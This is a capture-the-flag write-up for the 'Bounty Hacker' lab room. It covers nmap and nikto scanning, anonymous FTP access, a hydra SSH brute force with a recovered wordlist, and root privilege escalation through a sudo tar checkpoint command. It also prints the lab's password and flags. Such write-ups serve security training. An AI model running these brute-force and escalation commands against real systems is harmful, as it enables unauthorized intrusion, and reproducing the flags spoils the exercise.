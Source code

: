 # Bounty Hacker

--------------------------------------------------------------------

**TOOLS USED**: nmap, gobuster, nikto, hydra

--------------------------------------------------------------------

## GIVEN INFO


**IP Address**: 10.10.153.213

--------------------------------------------------------------------

## PROCEDURE

### 1. RECON

-script SCRIPT: script scan<br>
-sV: probe open ports to determine service/version info<br>
-oN OUTPUT_FILE: output results to given filename<br>
```
nmap --script vuln -sV -oN nmap.txt 10.10.153.213
```

![1.1](./imgs/1.1.png)

**EXPOSED PORT (SERVICE)**:<br>
    21 (ftp vsftpd 3.0.3),<br>
    22 (ssh OpenSSH 7.2p2),<br>
    80 (http Apache httpd 2.4.18),<br>

ftp anonymous login allowed

Enumerate hidden directories on website
```
gobuster dir -u 10.10.153.213 -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt
```

No hidden directories found

Run Nikto web vuln scanner
```
nikto host --url 10.10.153.213
```

![1.2](./imgs/1.2.png)

### 2. FTP

Anonymous login to ftp
```
ftp anonymous@10.10.153.213
```

2 files found in ftp

![2.1](./imgs/2.1.png)

locks.txt might be possible passwords

### 3. Brute Force SSH

Use hydra to brute force ssh login
```
hydra -l "lin" -P locks.txt ssh://10.10.153.213 
```

![3.1](./imgs/3.1.png)

**USERNAME**: lin
**PASSWORD**: RedDr4gonSynd1cat3

![3.2](./imgs/3.2.png)

**USER FLAG**: THM{CR1M3_SyNd1C4T3}

### 4. Privilege Escalation

See sudo privileges for lin
```
sudo -l
```

![4.1](./imgs/4.1.png)

lin can run /bin/tar as root

From https://gtfobins.github.io/gtfobins/tar/#sudo
```
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

![4.2](./imgs/4.2.png)

**ROOT FLAG**: THM{80UN7Y_h4cK3r}